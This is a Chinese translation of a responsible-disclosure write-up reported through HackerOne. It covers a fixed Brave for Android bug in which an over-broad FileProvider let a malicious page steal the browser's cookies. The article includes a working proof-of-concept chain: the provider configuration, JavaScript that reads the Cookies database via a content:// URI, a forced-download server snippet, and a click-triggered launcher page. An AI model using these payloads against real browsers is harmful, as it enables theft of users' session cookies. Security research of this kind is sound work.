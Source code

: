 # 勇敢——远程偷你的饼干

> 原文：<https://infosecwriteups.com/brave-stealing-your-cookies-remotely-1e09d1184675?source=collection_archive---------0----------------------->

![](img/69de8d3d6d12a62fc59641db2a9dccae.png)

Brave for Android 有一个漏洞，允许恶意网页远程窃取您的 cookies。该漏洞是通过 HackerOne 报告的，修复耗时 5 个月。

# 介绍

在我研究 Android 应用程序的过程中，我在一些最常用的浏览器中发现了一些漏洞。在研究 Brave 的时候，我注意到它使用了一个[内容提供者](https://developer.android.com/reference/android/content/ContentProvider.html),这个提供者公开了公共目录中的所有文件以及私有文件。

为了处理文件，大多数 Android 应用程序使用一个[文件提供者](https://developer.android.com/reference/androidx/core/content/FileProvider)。这允许使用`content://`计划的 URI 访问文件。为了在 Android 中配置文件提供者，Brave 在其`AndroidManifest.xml`文件中声明了以下内容:

```
<provider android:name="org.chromium.chrome.browser.util.ChromeFileProvider" android:exported="false" android:authorities="com.brave.browser.FileProvider" android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>
</provider>
```

在它的`file_paths.xml`中，存储了这个提供者的可用文件信息，Brave 有以下内容:

```
<paths>
    <root-path name="root" path="." />
    <files-path name="images" path="images/" />
    <cache-path name="cache" path="net-export/" />
    <cache-path name="passwords" path="passwords/" />
    <cache-path name="traces" path="traces/" />
    <cache-path name="webapk" path="webapks/" />
    <cache-path name="offline-cache" path="Offline Pages/archives/" />
    <external-path name="downloads" path="Download/" />
    <external-path name="downloads" path="Android/data/com.brave.browser/files/Download/" />
</paths>
```

我立刻看到了`root`文件夹的配置，其中有`root-path`和`.`的组合，这意味着主目录`/`是可用的。这包括`/sdcard/`以及`/data/`。

大部分浏览器都支持直接阅读`content://`。例如，这对于打开本地 HTML 页面或 PDF 文件非常有用。Brave 也支持这一点，所以在 Brave 中打开一个`content://` URL 将在浏览器中呈现该文件。

由于 Brave 公开了自己的私有文件夹`/data/data/com.brave.browser/`，我们可以命令 Brave 打开自己的 cookies 文件`content://com.brave.browser.FileProvider/root/data/data/com.brave.browser/app_chrome/Default/Cookies`，看看会发生什么:

![](img/3d499b2264415fd5b5bf5f2214a68986.png)

Brave 从 content:// URLs 下载二进制文件

它下载文件。这本身就已经是一个漏洞了。这将允许恶意应用程序命令 Brave 打开该内容 URI，等待 Brave 下载该文件，然后从下载目录中检索该文件，该目录是一个公共目录，所有具有`STORAGE`权限的应用程序都可以使用。

这时我通过 HackerOne 向勇者队报告了漏洞。第二天，我想知道我是否可以通过找到一种从下载中窃取文件的方法，将这个漏洞升级到“远程”。

我注意到`content://`提供者和`iframes`之间存在交叉文件保护问题，允许通过`content://` URI 加载的 HTML 文件从另一个`content://` URI 加载另一个文件，前提是权限相同。

我决定将这个漏洞与之前的漏洞联系起来，让恶意网页生成一个恶意 HTML 文件，从设备中窃取 cookies。

恶意网页首先需要触发恶意 HTML 文件的下载。恶意 HTML 文件的内容可能是:

```
<script type="text/javascript">
​
  var request = new XMLHttpRequest();
  request.open("GET", "content://com.brave.browser.FileProvider/root/data/data/com.brave.browser/app_chrome/Default/Cookies", true);
  request.send(null);
  request.onreadystatechange = function() {
      if (request.readyState == 4) alert("Sending cookies to attacker: " + request.responseText);
  };
​
</script>
</html>
```

这将载入`content://com.brave.browser.FileProvider/root/data/data/com.brave.browser/app_chrome/Default/Cookies`的内容，并以警告模式打印出来。在真实的攻击场景中，内容会被发送到恶意服务器。

恶意页面加载后会触发上述文件的下载，该文件会保存在`/sdcard/Download/new_file.html`下。

```
self.send_response(200)
self.send_header("Content-Type", "application/octet-stream")
self.send_header("content-disposition", "attachment; filename=new_file.html")
self.end_headers()
```

因为 Brave 不允许在你打开一个新页面后，没有用户交互就打开另一个页面，所以我添加了一个点击监听器，当用户点击网页的任何位置时都会触发这个监听器:

```
<iframe src="/download_page.html" style="width:0;height:0;border:0; border:none;"></iframe>
​
<button id="myCheck" onclick="window.open('android-app://com.brave.browser/content/com.brave.browser.FileProvider/root/sdcard/Download/new_file.html#Intent;type=text/html;end');">
​
<script>
  document.addEventListener('click', function (event) {
    document.removeEventListener('click', this, false);
    document.getElementById("myCheck").click();
  }, false);
</script>
</html>
```

`iframe`将触发恶意 HTML 文件的下载，然后我创建了监听器来等待点击事件。

当用户点击屏幕时，恶意 HTML 将打开并触发漏洞。

![](img/d1c7e985858ad3cbf8ccab98aafc226a.png)

显示 cookies 数据库内容的完整漏洞

# 结论

尽管这需要用户交互，但点击网页的情况并不少见，用户可能会被许多方式欺骗。第二天，我用这个新的漏洞更新了我的初步报告，将问题的严重性提高到了危急。

# 时间表

*   2020 年 5 月 16 日—向 HackerOne 提交初步报告
*   2020 年 5 月 17 日—报告远程攻击
*   2020 年 6 月 2 日—修复开始
*   2020 年 6 月 16 日—部署修复
*   2020 年 6 月 18 日——奖金分配(500 美元)
*   2020 年 8 月 29 日—由于回归，报告重新打开
*   2020 年 10 月 23 日—修复重新部署

Brave [在 v1.12.32](https://github.com/brave/brave-core/pull/5841) 中解决了该问题，大约在最初报告后 1 个月。然而，由于在 v1.13.87 中 Brave 处理本地 PDF 文件的方式出现倒退，此修复[被恢复。最终修复](https://github.com/brave/brave-core/pull/6530)[在 v1.18.5 中的初始](https://github.com/brave/brave-core/pull/6836)[报告](https://github.com/brave/brave-core/pull/6836)5 个月后部署。

你可以在这里阅读完整的披露报告[。](https://hackerone.com/reports/876192)

这篇文章是我 2020 年在 Android 浏览器上发现的一系列漏洞的一部分。如果你喜欢这个，你可以在这里阅读我在火狐[发现的一个类似的漏洞，关于一个网站如何窃取你所有的 cookies。请继续关注其他浏览器上的后续报道！](/firefox-and-how-a-website-could-steal-all-of-your-cookies-581fe4648e8d)

干杯，

**推特** : [@kanytu](https://twitter.com/kanytu)

**领英**:[www.linkedin.com/in/kanytu](http://www.linkedin.com/in/kanytu)